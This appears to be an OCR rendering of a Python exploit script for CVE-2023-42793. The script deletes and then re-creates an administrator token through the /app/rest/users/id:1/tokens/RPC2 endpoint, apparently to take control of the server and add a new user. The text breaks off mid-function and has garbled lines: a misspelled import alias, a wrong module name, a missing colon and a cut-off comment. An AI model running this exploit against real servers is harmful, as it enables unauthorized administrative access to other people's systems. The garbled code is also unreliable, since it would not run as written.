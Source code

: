 ```python
import requests
#To analyze arguments 
import argparse
#To process xml responses
import xml.etree.Element ar ET

#Define color 
Color_Off="\033[0m"
Black = "\033[0;30m"
Red= "\033[0;31m"
Green= "\033[0;32m"
Yellow= "\033[0;33m"
Blue= "\033[0;34m"
Purple= "\033[0;35m"

class CVE_2023_42793:
	#Create the constructor
	def __init__(self):
		#Url 
		self.url=""
		#Http request session
		self.session = request.session()
		
	def username(self):
		name = "H454NSec"
		random_id = random.randint(1000,9999)
		return f"{name}{random_id}"
	
	def delete_user_token(self, url)
		self.url = url
		headers = {
			"User-Agent":"Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
			"Content-Type":"application/x-www-form-urlencoded",
			"Accept-Encoding":"gzip, deflate"
			}
		try:
			#Send a request to delete the user token
			response = self.session.delete(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
			#If the answer is successful
			if response.status_code == 204 or response.status_code == 404:
				self.create_user_token()
			
		except Exception as err:
			pass
			
	def create_user_token(self):
		headers = {
			"User-Agent":"Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
			"Accept-Encoding":"gzip, deflate"
		}
		try:
			#send a post request to create a new token
			response = self.session.post(f"{self.url}/app/rest/users/id:1/tokens/RPC2")
			#If the answer is successful extract token value
			#And create a new user
			if response.status_code == 200:
				response_text = response.text
				root = ET.fromstring(response_text)
				value = root.get('value')
				#RFC 751 open standar
```